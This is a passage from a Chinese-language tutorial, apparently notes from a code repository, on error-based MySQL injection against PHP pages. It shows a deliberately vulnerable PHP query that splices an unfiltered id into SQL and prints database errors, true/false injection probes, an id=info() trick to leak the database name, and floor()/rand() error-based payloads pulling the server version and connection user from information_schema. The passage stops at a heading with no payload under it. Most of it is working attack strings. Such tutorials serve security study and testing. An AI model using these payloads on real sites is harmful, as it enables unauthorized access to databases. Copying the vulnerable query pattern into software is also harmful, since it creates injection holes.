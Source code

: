mysql在执行 SQL语句的时 如果语句有错 会返回报错信息，在与php结合使用的时候默认并不会把报错的信息在页面显示出来。

如果要在php显示出来 将在执行语句的时候使用mysql_error() 才可以把错误的信息 显示到页面。

```php
$result=mysql_query("select * from article where id=$id") or die(mysql_error());
```

![image-20210405222906267](../../acess/image-20210405222906267.png) 

## 1、判断注入

and 1=1
and 1=2

## 2、爆库

id=info()将会得到当前库的名  FUNCTION target_sys.info does not exist

```http
http://target_sys.com/mysqlinj.php?id=info()
```

## 3、一些报错语句

### 1、通过floor暴错

**数据库版本**

```http
and(select 1 from(select count(*),concat((select (select (select concat(0x7e,version(),0x7e))) from information_schema.tables limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a)
```

**简单办法暴库**

```http
id=info()
```

**连接用户**

```http
and(select 1 from(select count(*),concat((select (select (select concat(0x7e,user(),0x7e))) from information_schema.tables limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a)
```

**连接数据库**
